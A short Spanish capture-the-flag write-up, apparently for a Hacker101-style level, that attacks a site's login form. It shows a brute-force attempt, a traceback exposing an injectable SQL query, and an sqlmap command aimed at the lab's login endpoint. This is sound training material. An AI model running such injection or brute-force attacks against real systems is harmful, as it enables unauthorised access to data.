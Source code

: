 # Nivel 3

Ahora mejorada la seguridad del sitio piden login para editar.

Para atacar le tire una lista enorme a usuario y pass. Me lanza esto:

```text
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 233, in execute
    query = query.encode(db.encoding)
UnicodeEncodeError: 'latin-1' codec can't encode character u'\u2026' in position 298: ordinal not in range(256)
```

Entonces enumeremos ahi tenemos una query y ambos motores mysql y mariadb. Desde burp vemos que usa parametros como username and password para el login simple. 

![](../../.gitbook/assets/imagen%20%28724%29.png)

Sigue generando el error asi que probemos con otra tool.

Le tiramos desde **sqlmap** la siguiente query

```text
sqlmap -u http://35.190.155.168/5a75132eac/login --data "username=&password=" --dbms mysql
```

![](../../.gitbook/assets/imagen%20%28725%29.png)



